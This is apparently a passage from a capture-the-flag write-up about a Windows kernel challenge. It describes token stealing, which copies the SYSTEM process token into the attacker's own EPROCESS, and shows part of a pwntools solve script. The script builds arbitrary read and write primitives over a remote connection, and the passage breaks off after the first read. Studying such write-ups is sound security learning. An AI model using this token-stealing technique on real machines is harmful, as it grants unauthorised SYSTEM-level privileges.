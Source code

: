 And at this point, we're almost ready to read the flag content, the only thing we need to do is overwrite the Token value from our eprocess with the token value from the system process.

```py
system_token = read_at_va(PsInitialSystemProcess + Token_off)
write_to_va(target_eprocess + Token_off, system_token)
```

Then we just read the flag and we're done.
```py
io.sendline(b'3')
io.interactive()
```

### solve.py

```py
from pwn import *


io = remote('xx.xx.xxx.xx', 4444)

kernel_base = int(io.recvline().decode().split(': ')[1], 16)
process_id: int = int(io.recvline().decode().split(': ')[1])

print('[*] kernel_base:', hex(kernel_base))
print('[*] pid', process_id)


def skip_options():
    io.recvuntil(b'an option\r\n')


def read_at(off: int) -> int:
    assert(off % 8 == 0)

    io.sendline(b'2')
    io.recvline()
    io.sendline(str(off // 8).encode())
    io.recvline()
    io.recvline()
    v = int(io.recvline().decode().split('ead ')[1].strip())

    skip_options()
    return v


def write_to(off: int, val: int) -> None:
    assert(off % 8 == 0)

    io.sendline(b'1')
    io.recvline()
    io.sendline(str(off // 8).encode())
    io.recvline()
    io.sendline(str(val).encode())
    io.recvline()
    io.recvline()

    skip_options()


skip_options()
secret_store_base: int = read_at(64)
print('[*] secret_store_base', hex(secret_store_base))


```